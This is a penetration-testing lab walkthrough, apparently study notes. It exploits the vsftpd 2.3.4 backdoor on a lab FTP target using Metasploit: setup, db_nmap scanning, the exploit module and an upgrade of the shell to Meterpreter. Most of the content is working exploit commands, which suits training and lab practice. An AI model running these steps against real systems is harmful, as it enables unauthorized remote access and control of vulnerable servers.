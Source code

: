 # 🔬FTP - MSF Exploit

## Lab 1

>  🔬 [Vulnerable FTP Server](https://www.attackdefense.com/challengedetailsnoauth?cid=179)
>
>  - Target IP: `192.80.80.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [vsftpd 2.3.4 - Backdoor Command Execution](https://www.exploit-db.com/exploits/49757)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.80.80.3
setg RHOST 192.80.80.3
workspace -a vsftpd2.3.4
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.80.80.3
```

![db_nmap -sS -sV -O 192.80.80.3](3-metasploitassets/image-20230416130726833.png)

```bash
analyze # error
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
info
# Description:
#   This module exploits a malicious backdoor that was added to the 
#   VSFTPD download archive. This backdoor was introduced into the 
#   vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
#   according to the most recent information available. This backdoor 
#   was removed on July 3rd 2011.
options
run
```

```bash
/bin/bash -i
```

![Metasploit - exploit/unix/ftp/vsftpd_234_backdoor](3-metasploitassets/image-20230416131200154.png)

- Shell to `Meterpreter` post exploitation

```bash
background
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 2
set LHOST eth1
run

sessions
sessions 3
```

![](3-metasploitassets/image-20230416131524452.png)

------

